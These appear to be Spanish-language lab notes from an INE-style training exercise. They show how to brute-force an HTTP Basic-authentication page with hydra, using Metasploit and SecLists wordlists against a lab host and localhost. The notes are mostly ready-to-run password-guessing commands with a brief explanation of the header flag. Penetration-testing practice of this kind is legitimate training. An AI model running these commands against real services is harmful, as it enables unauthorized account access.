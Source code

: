 Con este comando:
`hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get "/" -m "Authorization: Basic ^USER^:^PASS^"`

El parámetro -m permite modificar los headers de la petición. En este caso como es un basic auth, las modificamos.

Comandos que funcionaron:

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P passwords.txt 127.0.0.1 http-get "/" -m "Authorization: Basic ^USER^:^PASS^" -s 8000
```

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P passwords.txt 127.0.0.1 http-get "/" -m "Authorization: Basic ^USER^:^PASS^" -s 8000
```
